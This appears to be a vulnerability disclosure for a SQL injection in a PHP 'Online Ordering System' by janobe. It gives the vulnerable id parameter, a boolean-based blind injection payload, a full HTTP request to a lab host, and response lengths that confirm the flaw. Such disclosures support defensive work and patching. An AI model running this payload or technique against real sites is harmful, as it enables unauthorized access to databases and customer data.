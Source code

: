 # Online Ordering System By janobe has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/12978/online-ordering-system-phpmysqli.html

Vulnerability file: /ordering/index.php?q=products&id=

Vulnerability location: /ordering/index.php?q=products&id= //id is Injection point

[+]Payload: /ordering/index.php?q=products&id=2%27%20and%20length(database())%20=12--+ //id is Injection point

Current database name: multistoredb,length is 12

```sql
GET /ordering/index.php?q=products&id=2%27%20and%20length(database())%20=12--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

When length (database ()) = 11, Content-Length: 17564
![image](https://user-images.githubusercontent.com/54017627/168940458-5e11db7e-7a83-4fd9-a205-4c3ded901d1c.png)

![image](https://user-images.githubusercontent.com/54017627/168940395-a8d6777e-8543-4e5d-a333-907517ce3c1e.png)

When length (database ()) = 12, Content-Length: 24330
![image](https://user-images.githubusercontent.com/54017627/168940427-fd0bf7b1-4ddd-44f1-8d75-16d69b55478c.png)

![image](https://user-images.githubusercontent.com/54017627/168940372-79814df9-4d24-443e-a107-0a4c2482f2fa.png)
